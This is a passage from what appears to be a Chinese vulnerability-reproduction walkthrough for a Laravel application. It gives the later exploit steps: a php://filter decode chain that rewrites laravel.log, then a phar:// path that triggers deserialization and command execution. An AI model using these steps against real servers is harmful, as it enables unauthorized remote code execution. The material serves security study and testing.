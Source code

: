 注意：因为每次payload都会写入两次，所有请在payload最后面加上一个字母a，只让payload生效一次

（5）然后清除干扰字符好进行反序列化

```
php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

<img src="./图片12.png" style="zoom:150%;" />

（6）触发phar反序列化执行命令

`phar:///Applications/MxSrvs/www/laravel/storage/logs/laravel.log/test.txt`

<img src="./图片13.png" style="zoom:150%;" />

注意：只有在编辑log的时候返回的是500，其他时候都是200，如有特殊情况需要从第一步从新开始
